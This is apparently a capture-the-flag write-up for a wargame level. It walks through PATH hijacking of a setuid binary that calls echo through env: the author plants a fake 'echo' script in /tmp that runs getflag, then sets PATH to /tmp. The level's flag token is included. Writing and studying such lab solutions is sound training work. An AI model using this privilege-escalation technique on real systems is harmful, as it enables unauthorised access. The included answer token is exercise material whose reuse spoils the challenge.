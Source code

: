 When we started the level03, in the home of the user we found the binary **level03**

it prints:
```bash
Exploit me
```

Let's disasemble it:
first let's check the strings in the binary with:
```bash
strings level03
```

we can see this line:
```
/usr/bin/env echo Exploit me
```

It seems like the binary use the environement to find the path for echo, then it prints *Exploit me*

We can confirm it with gdb:

```bash
gdb ./level03
```

```gdb
(gdb) info functions
All defined functions:

File /home/user/level03/level03.c:
int main(int, char **, char **);
```

The main use int (argc), char**(argv), char**(envp).
So if we **delete the PATH variable in env**, the binary can't find echo.

So... we can redefine a path to a custom echo !
lets create it:

```bash
cd tmp
vim echo
```

```bash
#!/bin/bash
/bin/getflag
```

```bash
chmod +x echo
```

then we redefine the PATH:

```bash
export PATH="/tmp"
```

and the binary give us:
```bash
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

```